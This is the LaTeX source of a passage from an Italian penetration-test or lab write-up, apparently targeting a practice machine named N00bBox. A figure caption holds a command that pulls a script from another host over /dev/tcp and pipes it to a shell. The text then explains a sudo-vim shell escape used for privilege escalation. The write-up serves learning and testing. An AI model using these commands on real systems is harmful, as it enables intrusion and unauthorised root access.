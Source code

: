 \documentclass[a4paper, 12pt, oneside]{article}
\begin{document}
\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/linpeas.png}
    \caption{\texttt{cat < /dev/tcp/192.168.64.23/80 | sh}}
\end{figure}

\newpage
\subsubsection{\texttt{linpeas.sh}: i risultati}
L'output dello script è allegato al presente documento nel file \texttt{linpeas-output.txt} e, mediante la sua analisi, è possibile imbattersi nelle seguenti informazioni derivanti dalla lettura del file \texttt{/etc/sudoers} dell'asset:

\begin{center}
    \texttt{
    User noobbox may run the following commands on N00bBox:\\
        (ALL : ALL) /usr/bin/vim}
\end{center}

Lo script suggerisce tra l'altro che questa impostazione rappresenta "Al 95\% un vettore di Privilege Escalation" (sulla shell dell'asset era evidenziato in giallo).

Si noti come l'editor \texttt{vim} permetta l'esecuzione di comandi shell mediante la sintassi:

\begin{center}
    \texttt{vim -c ':!<comando>'}
\end{center}

dove:

\begin{itemize}
    \item \texttt{-c} permette l'esecuzione di un comando subito dopo l'apertura dell'editor;
    \item \texttt{:} entra nella cosiddetta \textit{command mode};
    \item \texttt{!} viene usato per indicare che il prossimo input deve essere interpretato come un \textbf{comando di shell}
\end{itemize}
\end{document}
